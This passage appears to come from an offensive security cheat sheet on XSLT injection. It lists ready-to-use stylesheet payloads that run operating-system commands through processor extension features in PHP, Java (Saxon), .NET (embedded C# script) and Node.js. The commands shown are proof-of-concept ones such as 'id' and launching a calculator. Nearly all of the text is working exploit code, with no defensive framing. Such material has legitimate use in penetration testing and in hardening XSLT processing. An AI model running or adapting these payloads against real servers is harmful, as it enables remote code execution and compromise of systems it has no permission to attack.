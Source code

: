 ### 4. PHP Extension Exploitation

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:php="http://php.net/xsl">
  <xsl:template match="/">
    <xsl:value-of select="php:function('system','id')"/>
  </xsl:template>
</xsl:stylesheet>
```

### 5. Java Extension Exploitation (Saxon)

```xml
<xsl:stylesheet version="2.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:java="http://saxon.sf.net/java-type">
  <xsl:template match="/">
    <xsl:value-of select="Runtime:exec(Runtime:getRuntime(),'cmd.exe /c calc')" 
    xmlns:Runtime="java:java.lang.Runtime"/>
  </xsl:template>
</xsl:stylesheet>
```

### 6. .NET Extension Exploitation

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:cs="http://csharp.com/mynamespace">

  <msxsl:script language="C#" implements-prefix="cs">
    public string execute() {
      System.Diagnostics.Process.Start("calc.exe");
      return "";
    }
  </msxsl:script>

  <xsl:template match="/">
    <xsl:value-of select="cs:execute()"/>
  </xsl:template>

</xsl:stylesheet>
```

### 7. Node.js Extension Exploitation

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:node="http://nodejskit.com/ns">

  <!-- Using node-libxslt -->
  <node:script>
    const { execSync } = require('child_process');
    exports.runCommand = function() {
      return execSync('id').toString();
    };
  </node:script>

  <xsl:template match="/">
    <xsl:value-of select="node:runCommand()"/>
  </xsl:template>

</xsl:stylesheet>
```
